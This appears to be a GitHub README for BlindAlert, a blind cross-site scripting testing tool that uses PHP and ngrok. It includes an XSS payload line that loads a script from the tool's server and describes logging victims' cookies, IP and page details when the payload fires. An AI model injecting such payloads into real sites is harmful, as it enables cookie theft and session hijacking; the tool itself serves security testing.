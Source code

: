 # BlindAlert

![BlindAlert](https://image.ibb.co/iHB1Dx/blind_Alert.png)

Easy Blind Cross-site Scripting testing tool.

## Requirements

* PHP >= 5.7
* Running server or [ngrok](https://ngrok.com/) (access localhost over the internet)

## Installation

Either you can install in your local system and access through the ngrok or install into a live server.

To install BlindAlert, simply clone the repo
```
git clone https://github.com/ProjectorBUg/blindAlert.git
```

To Run on local server
```
cd blindAlert
cd BUG
php -S localhost:80
```
Now open http://localhost in your browser.

Over the internet using ngrok
```
./ngrok http 80
```


## Uses

- Create a JS payload and start blindly putting into endpoints :-) 
`e.g. "><script src="http://localhost"></script>`
- When it executes sucessfully, it creates an output file within the same project directory. 

Example output file.txt: 

```
origin: http://example
host: example
url: http://example/user/posts
referrer: http://example/user
user-agent: <user-agent>
cookies: <document.cookie>
ip: <ip_addess>
```
